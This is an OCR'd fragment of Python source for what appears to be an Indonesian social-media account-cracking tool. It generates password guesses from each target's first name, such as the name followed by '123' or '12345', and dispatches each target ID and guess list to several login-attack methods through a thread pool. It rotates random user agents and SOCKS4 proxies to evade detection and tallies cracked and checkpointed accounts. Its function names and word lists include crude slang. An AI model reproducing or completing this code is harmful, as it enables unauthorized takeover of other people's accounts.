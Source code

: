                                                  pwv.append(frs+'02') 
                                                 pwv.append(frs+'03') 
                                                 pwv.append(frs+'04') 
                                                 pwv.append(frs+'05') 
                                                 pwv.append(frs+'1234') 
                                                 pwv.append(frs+'12345') 
                                                 pwv.append(frs+'123456') 
                                                 pwv.append('katasandi') 
                                                 pwv.append('kontol') 
                                 else: 
                                         if len(frs)<3: 
                                                 pwv.append(nmf) 
                                         else: 
                                                 pwv.append(nmf) 
                                                 pwv.append(frs+'12') 
                                                 pwv.append(frs+'321') 
                                                 pwv.append(frs+'123') 
                                                 pwv.append(frs+'1234') 
                                                 pwv.append(frs+'12345') 
                                                 pwv.append(frs+'123456') 
                                 if 'ya' in pwpluss:  
                                         for xpwd in pwnya: 
                                                 pwv.append(xpwd) 
                                 else:pass 
                                 if 'validate1' in method: 
                                         pool.submit(validate1,idf,pwv) 
                                 elif 'validate2' in method: 
                                         pool.submit(validate2,idf,pwv) 
                                 elif 'reguler1' in method: 
                                         pool.submit(reguler1,idf,pwv) 
                                 elif 'reguler2' in method: 
                                         pool.submit(reguler2,idf,pwv) 
                                 elif 'bapi' in method: 
                                         pool.submit(bapi,idf,pwv) 
                                 elif 'kontol' in method: 
                                         pool.submit(kontol,idf,pwv) 
                                 elif 'colmek1' in method: 
                                         pool.submit(colmek1,idf,pwv) 
                                 elif 'colmek2' in method: 
                                         pool.submit(colmek2,idf,pwv) 
                                 else: 
                                         pool.submit(validate1,idf,pwv) 
                 print('') 
         print(f'  Crack Telah Selesai,Semoga Anda Bersyukur Dengan Hasil Nya') 
         print(f'  [+] OK : {H}{ok} ') 
         print(f'  [+] CP : {K}{cp} ') 
  
 #--------------------[ METODE VALIDATE ]-----------------# 
 def validate1(idf,pwv): 
         global loop,ok,cp 
         bo = random.choice([m,k,h,b,u,x]) 
         ua = random.choice(ugen) 
         ua2 = random.choice(ugen2) 
         ses = requests.Session() 
         prog.update(des,description=f"[bold green]Validate V1[bold white] {loop}/{len(id)} OK-:[bold green]{ok}[/] CP-:[bold yellow]{cp}[/]") 
         prog.advance(des)  
         for pw in pwv: 
                 try: 
                         if 'ya' in ualuh: ua = ualu[0] 
                         nip=random.choice(prox) 
                         proxs= {'http': 'socks4://'+nip} 